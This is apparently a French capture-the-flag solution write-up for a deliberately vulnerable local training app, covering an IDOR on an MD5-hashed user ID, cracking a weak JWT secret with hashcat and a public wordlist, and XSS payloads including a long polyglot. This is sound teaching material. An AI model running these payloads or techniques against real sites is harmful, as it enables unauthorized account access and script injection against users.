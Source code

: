# Solution
## A01 - Contrôles d'accès défaillants

La page est vulnérable à une Insecure Direct Object Reference (IDOR) car l'ID utilisateur est directement accessible via l'URL sans vérification d'autorisation, l'ID d'utilisateur est le hash MD5 du nom d'utilisateur. Nous pouvons observer dans le code source ce commentaire :

```html
<!--  Si c'est l'administrateur admin_78 alors affiche le panneau de commande -->
```

Nous pouvons donc avoir accès au profil de l'administrateur en modifiant l'ID utilisateur dans l'URL.
Nous obtenons le MD5 de admin_78 : 20541eeb668da7d30c80c56f00726f07

Nous avons donc http://localhost:8042/profile.php?id=20541eeb668da7d30c80c56f00726f07

Nous obtenons le flag.

# Solution
## A02 - Défaillances cryptographiques

Nous pouvons casser les différents hashs pour obtenir les mots de passe. Soit avec hashcat ou via des sites web comme crackstation.net.

Nous avons le JWT avec un secret faible que nous pouvons trouver :

```bash
git clone https://github.com/wallarm/jwt-secrets.git
hashcat -m 16500 -a 0 jwt_token.txt /jwt-secrets/jwt.secrets.list
```

Nous pouvons obtenir des informations dans le JWT aussi :

```json
{
  "sub": "VulnApp{jW7-iS-sEcUR3}",
  "name": "John Diffol",
  "iat": 1516239022,
  "artefact": "Incal",
  "email": "secret-fbi@yahoo.me",
  "password": "2365047407a61753e467c979bdf219efb9dd3c9c"
}
```

# Solution
## A03 - Injection

Nous avons une page avec une injection SQL et une XSS. Pour la XSS, nous pouvons tester avec `<script>alert(1)</script>` dans le champ de recherche et cela fonctionne. Nous aurions pu aussi utiliser `"><svg/onload=alert(1)>` ou alors une polyglotte : 
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
Source : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
